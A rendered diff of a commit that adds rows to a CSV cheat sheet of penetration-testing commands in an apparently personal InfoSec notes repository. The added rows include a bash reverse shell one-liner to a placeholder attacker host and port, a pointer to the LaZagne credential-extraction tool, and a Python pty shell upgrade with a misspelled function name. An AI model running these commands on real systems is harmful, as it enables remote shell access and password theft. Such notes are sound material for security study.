

Before and after one commit to HarshitKhurana/InfoSec, a CSV file: SimpleTools|Commands.csv, drawn as a sheet; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/SimpleTools|Commands.csv
+++ b/SimpleTools|Commands.csv
+row 4: LaZagne | : | Tool to extract all types of passwords present in machine(https://github.com/AlessandroZ/LaZagne)
+row 10: LinEnum.sh | : | Linux enumeration scripts
+row 11: gdb->list funcitons | : | To list all functions used in a binary
+row 12: bash -c " bash -i </dev/tcp/AttackerIp/AttackerPort 2>&1 >&0" | : | Reverse shell on attacker machine using bash
+row 13: python3 -c "import pty;pty.spwan('/bin/bash')" | : | Gives a shell/terminal with some pre-built features
```
Also changed, not shown: 29 other files.
